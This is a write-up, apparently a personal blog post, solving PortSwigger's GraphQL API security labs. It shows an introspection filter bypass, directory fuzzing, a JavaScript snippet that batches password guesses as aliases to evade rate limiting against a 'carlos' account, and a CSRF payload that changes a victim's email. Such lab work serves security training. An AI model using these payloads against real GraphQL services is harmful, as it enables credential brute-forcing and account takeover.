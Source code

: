 ```yaml
---
layout: single
title: GraphQL - PortSwigger
excerpt: "All GraphQL API vulnerabilities labs of PortSwigger."
date: 2025-10-06
classes: wide
header:
  teaser: /img2/images/portswigger.png
  teaser_home_page: true
  icon: /img2/images/burp.jpg
categories:
  - portswigger
  - Web
tags:
  - Burpsuite
  - GraphQL
---
```



## TIPS

- Introspection query

![](/img2/Pasted%20image%2020251006184953.png)

![](/img2/Pasted%20image%2020251006185024.png)

```json
- QUERY -

query($id: Int!) {
  getUser(id: $id) {
    id
    username
    password
  }
}

- VARIABLE -
  
{
	"id":1
}
```

- Bypass `__schema{` regex validation

```http
query IntrospectionQuery {
    __schema   
     {
	...
```

- Brute Force with aliases

```javascript
- BROWSER CONSOLE -

copy(`123456,password,12345678,qwerty,123456789,12345,1234,111111,1234567,dragon,123123,baseball,abc123,football,monkey,letmein,shadow,master,666666,qwertyuiop,123321,mustang,1234567890,michael,654321,superman,1qaz2wsx,7777777,121212,000000,qazwsx,123qwe,killer,trustno1,jordan,jennifer,zxcvbnm,asdfgh,hunter,buster,soccer,harley,batman,andrew,tigger,sunshine,iloveyou,2000,charlie,robert,thomas,hockey,ranger,daniel,starwars,klaster,112233,george,computer,michelle,jessica,pepper,1111,zxcvbn,555555,11111111,131313,freedom,777777,pass,maggie,159753,aaaaaa,ginger,princess,joshua,cheese,amanda,summer,love,ashley,nicole,chelsea,biteme,matthew,access,yankees,987654321,dallas,austin,thunder,taylor,matrix,mobilemail,mom,monitor,monitoring,montana,moon,moscow`.split(',').map((element,index)=>`
bruteforce$index:login(input:{password: "$password", username: "carlos"}) {
        token
        success
    }
`.replaceAll('$index',index).replaceAll('$password',element)).join('\n'));console.log("The query has been copied to your clipboard.");
```

```http
mutation {

bruteforce0:login(input:{password: "123456", username: "carlos"}) {
        token
        success
    }


bruteforce1:login(input:{password: "password", username: "carlos"}) {
        token
        success
    }
}
```

- CSRF with Content-Type conversion (x-www-form-urlencoded)

```http
query=%0A++++mutation+changeEmail%28%24input%3A+ChangeEmailInput%21%29+%7B%0A++++++++changeEmail%28input%3A+%24input%29+%7B%0A++++++++++++email%0A++++++++%7D%0A++++%7D%0A&operationName=changeEmail&variables=%7B%22input%22%3A%7B%22email%22%3A%22hacker%40hacker.com%22%7D%7D
```

## Accessing private GraphQL posts

![](/img2/Pasted%20image%2020251006170045.png)

![](/img2/Pasted%20image%2020251006170324.png)

> We run the introspection query and we see a hidden field in the response.

![](/img2/Pasted%20image%2020251006170510.png)

> In the getBlogPost query we add the hidden field postPassword.

## Accidental exposure of private GraphQL fields

![](/img2/Pasted%20image%2020251006174635.png)

![](/img2/Pasted%20image%2020251006174208.png)

> Once the introspection query is executed we can send the query to the site map.

![](/img2/Pasted%20image%2020251006174601.png)

> Inside the site map we see a query called getUser.

![](/img2/Pasted%20image%2020251006174723.png)

## Finding a hidden GraphQL endpoint

```bash
❯ gobuster dir -u https://0a9e00d404ff3a9c8a733076007e005b.web-security-academy.net/ -w BSCP/burp-paths.txt -t 20
```

```ruby
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://0a9e00d404ff3a9c8a733076007e005b.web-security-academy.net/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                BSCP/burp-paths.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/api                  (Status: 400) [Size: 19]
/logout               (Status: 302) [Size: 0] [--> /]
/my-account           (Status: 302) [Size: 0] [--> /login]
/resources/images/tracker.gif (Status: 200) [Size: 42]
/login                (Status: 200) [Size: 3124]
/filter               (Status: 200) [Size: 10736]
/product              (Status: 400) [Size: 30]
Progress: 279 / 280 (99.64%)
===============================================================
Finished
===============================================================
```

> We fuzz directories and find the `/api` directory.

![](/img2/Pasted%20image%2020251006182819.png)

> We detect the use of GraphQL.

![](/img2/Pasted%20image%2020251006183224.png)

> When trying to run the introspection query we see some kind of validation is being applied.

![](/img2/Pasted%20image%2020251006184006.png)

> To bypass the validation we add a newline before the { so that we bypass the regex validation `__schema{`

![](/img2/Pasted%20image%2020251006184243.png)

> We send the introspection query to the site map and we see an interesting function.

![](/img2/Pasted%20image%2020251006184317.png)

## Bypassing GraphQL brute force protections

![](/img2/Pasted%20image%2020251006195620.png)

> We send the introspection query to the site map and we see a login query.

![](/img2/Pasted%20image%2020251006195733.png)

> When sending multiple requests we are rate limited. This complicates the ability to brute force.

![](/img2/Pasted%20image%2020251006195859.png)

> However, in GraphQL we can send multiple requests in one using aliases.

![](/img2/Pasted%20image%2020251006200014.png)

![](/img2/Pasted%20image%2020251006200112.png)

> Using a small JavaScript script we generate several aliases and send them in the same request.

## Performing CSRF exploits over GraphQL

![](/img2/Pasted%20image%2020251006202839.png)

> We see a request to change the email in a GraphQL API. Using JSON syntax we could not exploit the CSRF.

![](/img2/Pasted%20image%2020251006212415.png)

> We generate a PoC using Burp Suite and send it to the victim.